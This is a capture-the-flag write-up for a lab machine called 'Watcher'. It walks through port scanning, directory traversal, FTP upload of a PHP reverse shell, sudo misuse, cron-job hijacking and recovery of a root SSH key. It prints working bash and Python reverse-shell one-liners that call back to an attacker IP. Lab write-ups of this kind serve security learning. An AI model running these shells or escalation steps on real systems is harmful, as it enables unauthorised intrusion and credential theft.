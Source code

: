 ```yaml
---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---
```


  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website
![[images/20230707155443.png]]


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  ![[images/robot.txt.png]]
  - Secret File not accessable
##### flag_1.txt
![[images/20230707155735.png]]

### Directory Traversal possible
![[images/20230707162434.png]]
##### User List:
- toby
- mat
- ftpuser
- will
-> Sensitive file: Secret file do not read
![[images/20230707162723.png]]
-> Access to ftp
![[images/20230707163026.png]]
##### flag_2.txt
![[images/20230707163105.png]]
#### Local File Inclusion
-> Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit
![[images/flag_locations.png]]
##### Flag_3.txt:
![[images/20230707163842.png]]
Can execute sudo without password
![[images/20230707164347.png]]
Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc
![[images/20230707164754.png]]
There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
-> Every Minute cow.sh script is running
![[images/20230707165303.png]]
Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt
![[images/20230707173036.png]]
Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`
-> Got Access with will
![[images/20230707174117.png]]
```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
-> Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt
![[images/20230707182523.png]]
